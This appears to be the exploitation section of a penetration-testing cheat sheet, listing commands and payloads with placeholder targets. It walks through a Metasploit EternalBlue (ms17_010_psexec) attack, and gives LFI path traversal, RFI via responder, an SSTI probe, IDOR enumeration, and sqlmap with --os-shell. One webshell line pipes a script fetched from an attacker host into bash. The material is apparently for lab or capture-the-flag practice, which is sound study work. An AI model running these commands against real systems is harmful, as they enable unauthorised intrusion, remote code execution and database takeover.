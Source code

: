#3. - Exploitation
-----------------------------------------

- Searchsploit

```
$ searchsploit <term>
```

- Metasploit

```
$ msfconsole
msf6 > search exploit eternalblue
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 exploit(windows/smb/ms17_010_psexec) > info
msf6 exploit(windows/smb/ms17_010_psexec) > options
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS <IP address>
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
msf6 exploit(windows/smb/ms17_010_psexec) > check
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

- Local File Inclusion (LFI)

```
http://<domain name>/<page>?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

- Remote File Inclusion (RFI)

```
sudo responder -I <network interface>
http://<domain name>/<page>?page=//<IP address>/somefile
```

- Server Side Template Injection (SSTI)

```
${7*7}
```

- Insecure Direct Object Reference (IDOR)

```
http://<IP address>/data/0
http://<IP address>/data/1
http://<IP address>/data/2
```

- Webshell

```
http://<domain name>/shell.php?cmd=id
http://<domain name>/shell.php?cmd=curl%20<IP address>:8000/shell.sh|bash
```

- Sqlmap

```
$ sqlmap -u '<URL>' --cookie="PHPSESSID=<PHPSESSID>"
$ sqlmap -u '<URL>' --cookie="PHPSESSID=<PHPSESSID>" --os-shell
```
